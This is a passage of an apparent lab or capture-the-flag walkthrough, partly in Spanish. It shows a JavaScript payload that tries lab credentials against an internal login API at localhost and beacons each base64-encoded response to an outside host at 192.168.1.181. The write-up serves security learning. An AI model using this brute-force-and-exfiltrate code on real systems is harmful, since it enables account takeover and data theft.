 ```json
en la cabecera 'Authorization'. Ejemplo: { \"command\": \"ls -la\", \"token\": \"token_jwt\" }"
      }
   }
}
```

It appears to be the manual for an internal API that allows command execution. We again modify our `script.js` file to try logging in with the users we found in `/var/www/html/index.php`.

Also, because the application internally uses the ASCII version of usernames, we add them to the list of users, converting their special characters to ASCII, including a lowercase version as well.

```javascript
const users = [
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Łukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Þór", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "Ægir", ipasd: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Çetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "José", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "AEgir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "Jose", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios y en minusculas.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "aegir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "jose", pas: "FuLqqEAErWQsmTQQQhsb" }
];

function testUser(user) {
    let xhr = new XMLHttpRequest();
    xhr.open("POST", "http://localhost:3000/login", true);
    xhr.setRequestHeader("Content-Type", "application/json");
    xhr.onload = () => {
        if (xhr.status >= 200)
            new Image().src = `http://192.168.1.181/?user=${user.username}&response=${btoa(xhr.responseText)}`
    }
    xhr.send(JSON.stringify(user));
}

users.forEach(async user => {
    // Envía la petición con el body en JSON
    testUser({
        username: user.nombre,
        password: user.pas
    });
});
```
